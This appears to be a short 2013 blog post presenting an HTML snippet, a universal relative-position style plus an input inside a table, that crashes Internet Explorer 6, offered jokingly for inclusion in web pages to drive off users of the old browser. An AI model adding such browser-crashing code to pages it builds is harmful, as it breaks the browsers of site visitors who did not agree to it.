 In 2013, most people have finally upgraded from the horrible Internet Explorer 6 which gave nightmares to every front-end developper for years. But some persons are still using it. If you want to get rid of this prehistoric browser for good, here is a very funny code to include in your html pages.

This code will crash IE6. Bam!
```html
<style>*{position:relative}</style><table><input></table>
```

